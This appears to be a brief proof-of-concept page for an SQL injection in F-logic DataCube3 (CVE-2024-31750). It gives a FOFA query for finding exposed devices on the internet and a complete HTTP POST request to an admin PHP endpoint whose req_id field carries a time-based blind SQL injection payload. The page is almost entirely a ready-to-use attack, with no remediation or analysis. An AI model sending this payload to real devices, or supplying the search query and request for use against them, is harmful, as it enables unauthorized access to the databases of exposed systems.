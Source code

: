 ## F-logic_DataCube3存在SQL注入漏洞(CVE-2024-31750)

## fofa
```
title=="DataCube3"
```
![image](https://github.com/user-attachments/assets/c9f6de95-4d53-4399-b5cb-7d9d7cabee49)

## poc
```
POST /admin/pr_monitor/getting_index_data.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: application/x-www-form-urlencoded

req_id=1) AND 1113=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND (1450=1450
```

